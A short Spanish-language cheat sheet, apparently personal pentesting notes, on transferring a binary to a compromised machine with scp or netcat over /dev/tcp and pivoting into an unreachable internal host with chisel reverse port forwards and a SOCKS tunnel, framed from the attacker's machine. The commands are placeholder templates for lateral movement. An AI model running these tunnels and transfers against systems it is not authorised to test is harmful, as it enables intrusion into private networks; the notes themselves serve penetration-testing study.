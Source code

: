### Si tenemos *ssh* configurado con un *authorized_keys* en la máquina: 
```bash
scp {binary} {user}@{ip}:/{path}
```

### Con **netcat**: 
```bash
# Máquina 1: 
nc -nvlp {port} < {binary}
# Máquina 2: 
cat < /dev/tcp/{ip}/{port} > {name_binary}
```

### Una vez que tengamos **chisle** en la *Máquina 2* que tiene conexión con la *Máquina 3* con la cual nuestra *Máquina 1* no tiene conexión, en nuestra máquina de atacante (La *Máquina 1*) deberíamos crear el *server* de chisel: 

```bash
./chisel server --reverse -p 1234
```

### Mientras que si quisieramos compartir un puerto especifico de la Máquina 3 desde la Máquina 2 para poder acceder desde la Máquina 1, podríamos ejecutar:
```bash
# Desde nuestra Máquina 2 conectarnos a nuestro server de chisel haciend port forwarding de un puerto de la máquina 3 a nuestra máquina por el puerto 8899
./chisel client {IP_atacante}:1234 R:{Máquina3_port}:{Máquina3_IP}:8899
```

### Al ejecutar el comando de arriba,  si bien no tenemos conexión con la Máquina 3, la Máquina 2 se esta conectando a nuestro servidor de chisel brindando la disponibilidad de un puerto seleccionado de la Máquina 3 y permitiendonos acceder a este en un puerto seleccionado (Ej: 8899)

### Pero también podemos permitir acceso a todos los puertos para no tener que jugar puerto por puerto, de manera que si lo que nos interesa es tener completa conexión con la Máquina 3 desde la Máquina 1, en la Máquina 2 podríamos ejecutar el siguiente comando: 
```bash
./chisel client {IP_atacante}:1234 R:8899:socks
```

### De esta manera, por el puerto indicado (8899, si no especificamos 'R:socks' se habré por defecto el 1080) tendríamos conexión desde la Máquina 1 a la Máquina 3 pasando por este tunel. 
